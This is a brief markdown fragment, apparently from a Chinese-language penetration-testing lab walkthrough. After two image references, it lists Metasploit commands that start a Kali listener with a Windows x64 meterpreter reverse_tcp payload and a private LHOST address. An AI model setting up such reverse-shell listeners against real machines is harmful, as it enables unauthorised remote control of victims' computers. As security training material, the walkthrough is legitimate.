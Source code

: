 ![Alt text](image-35.png)   
![Alt text](image-36.png)   
kali 开启监听：   
```shell
 search multi/handler
 set payload windows/x64/meterpreter/reverse_tcp
 set LHOST 192.168.228.129
```   
